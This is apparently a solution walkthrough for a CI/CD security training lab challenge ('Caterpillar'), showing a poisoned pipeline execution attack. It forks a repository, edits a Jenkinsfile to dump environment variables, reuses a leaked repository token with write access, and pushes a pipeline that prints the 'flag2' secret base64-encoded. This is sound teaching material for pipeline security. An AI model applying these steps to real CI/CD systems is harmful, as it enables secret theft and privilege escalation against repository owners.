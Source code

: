 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Create a pull request originated from a fork and execute a [Public-PPE (3PE)](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/Caterpillar_ repository to elevate your privileges and steal the _flag2_ secret.

1. Fork the _Wonderland/Caterpillar_ repository.
2. Modify the Jenkinsfile in the fork to print the environment variables into the console output, or send it to a server you control.

    ```groovy
    stage ('Install_Requirements') {
        steps {
            sh 'env'
        }
    }
    ```

3. Create a pull request based on the fork into the main branch of the original repository. The _wonderland-caterpillar-test_ Jenkins pipeline, originally intended to run tests against the repository code, will be executed.
4. Access the console output of the executed job to get the _gitea_token_. This token has Write permission on the repository, which effectively allows you to elevate your privileges against the repo.
5. Clone the repository using the token.

    ```shell
    git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@localhost:3000/Wonderland/caterpillar.git
    ```

6. Modify the Jenkinsfile to load the _flag2_ secret as an environment variable and print it to the console output (or to send it to a remote host).

    ```groovy
    stage('deploy') {
        steps {
            withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
                sh 'echo $TOKEN | base64'
            }
        }
    }
    ```

7. Push the modified Jenkinsfile to the main branch in the repository. The _wonderland-caterpillar-prod_ pipeline will be triggered automatically.
8. Access the console output of the executed job to get the encoded secret.
![caterpillar](../images/caterpillar.png "caterpillar")
